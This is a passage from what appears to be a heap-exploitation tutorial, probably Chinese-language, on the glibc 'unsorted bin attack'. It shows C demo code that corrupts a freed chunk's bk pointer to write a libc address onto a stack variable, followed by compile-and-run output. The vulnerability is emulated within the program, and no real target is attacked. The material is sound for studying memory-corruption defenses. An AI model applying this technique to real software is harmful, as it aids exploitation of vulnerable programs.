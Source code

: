 ```c
          "Let's first look at the target we want to rewrite on stack:\n");
  fprintf(stderr, "%p: %ld\n\n", &target_var, target_var);

  unsigned long *p = malloc(400);
  fprintf(stderr, "Now, we allocate first normal chunk on the heap at: %p\n",
          p);
  fprintf(stderr, "And allocate another normal chunk in order to avoid "
                  "consolidating the top chunk with"
                  "the first one during the free()\n\n");
  malloc(500);

  free(p);
  fprintf(stderr, "We free the first chunk now and it will be inserted in the "
                  "unsorted bin with its bk pointer "
                  "point to %p\n",
          (void *)p[1]);

  /*------------VULNERABILITY-----------*/

  p[1] = (unsigned long)(&target_var - 2);
  fprintf(stderr, "Now emulating a vulnerability that can overwrite the "
                  "victim->bk pointer\n");
  fprintf(stderr, "And we write it with the target address-16 (in 32-bits "
                  "machine, it should be target address-8):%p\n\n",
          (void *)p[1]);

  //------------------------------------

  malloc(400);
  fprintf(stderr, "Let's malloc again to get the chunk we just free. During "
                  "this time, target should has already been "
                  "rewrite:\n");
  fprintf(stderr, "%p: %p\n", &target_var, (void *)target_var);
}
```

程序执行后的效果为

```shell
➜  unsorted_bin_attack git:(master) ✗ gcc unsorted_bin_attack.c -o unsorted_bin_attack
➜  unsorted_bin_attack git:(master) ✗ ./unsorted_bin_attack
This file demonstrates unsorted bin attack by write a large unsigned long value into stack
In practice, unsorted bin attack is generally prepared for further attacks, such as rewriting the global variable global_max_fast in libc for further fastbin attack

Let's first look at the target we want to rewrite on stack:
0x7ffe0d232518: 0

Now, we allocate first normal chunk on the heap at: 0x1fce010
And allocate another normal chunk in order to avoid consolidating the top chunk withthe first one during the free()

We free the first chunk now and it will be inserted in the unsorted bin with its bk pointer point to 0x7f1c705ffb78
Now emulating a vulnerability that can overwrite the victim->bk pointer
And we write it with the target address-16 (in 32-bits machine, it should be target address-8):0x7ffe0d232508

Let's malloc again to get the chunk we just free. During this time, target should has already been rewrite:
0x7ffe0d232518: 0x7f1c705ffb78
```
